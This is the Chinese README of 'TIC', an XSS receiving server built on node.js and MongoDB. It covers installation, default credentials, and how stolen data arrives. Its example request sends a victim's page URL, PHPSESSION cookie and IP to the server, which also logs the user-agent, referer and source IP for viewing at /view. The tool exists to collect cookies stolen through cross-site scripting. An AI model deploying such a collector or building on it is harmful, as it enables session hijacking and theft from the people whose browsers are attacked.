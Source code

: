 # TIC

TIC,一个简单的XSS服务端. 0x_Jin
  
#### 所需依赖

1. iojs or node.js
2. mongodb

#### 操作流程

1.安装mongodb后需要最好开启mongodb的ip绑定,绑定到127.0.0.1  
2.安装完后启动mongodb 使用mongo命令来管理mongodb. 添加数据库账户.   
```
use TIC  
db.addUser('TIC','ThisIsPass')  
如果你不想使用这个账号密码,可以更改为其他的.但是请同时修改TIC.js中的这段代码.  
mongoose.connect('mongodb://TIC:ThisIsTIC@localhost/TIC');
```
  
  
3.进入TIC目录,启动TIC.js (iojs TIC.js) , 程序会运行在本地的8080端口
```
如果需要修改端口,可以找到下面这段代码,把8080修改成你想要变更的端口.  
http.createServer(server).listen(8080);
```
  
  
4.本程序提供了结果查看页,路径为: /view , 为了安全性加上了基础认证. 默认基础认证 username:0x_Jin , password:wooyun
```
你可以在TIC.js中找到下面这段代码修改为你想要变更的账号密码.
if (!credentials || credentials.name !== '0x_Jin' || credentials.pass !== 'wooyun')
```
  
  
5.如果你想自己写一个结果查看页,你可以直接从 /receiver 来获得数据  
6.关于结果如何插入,除了.js .css 以及/view /receiver这些路径外的参数都会接受并存入数据库
```
example:http://xxxx:8080/?url=baidu.com&cookie=PHPSESSION%3Dxxxxxxx&ip=127.0.0.1  
除了GET外,POST也可以.
```
  
  
7.结果分为两大部分,第一部分为header,第二部分为request
```
header中存储的内容是程序获得到的请求者的数据,user-agent referer 源IP  
request中存储的内容为请求过来的数据 比如页面地址,cookie,ip等.
```

  
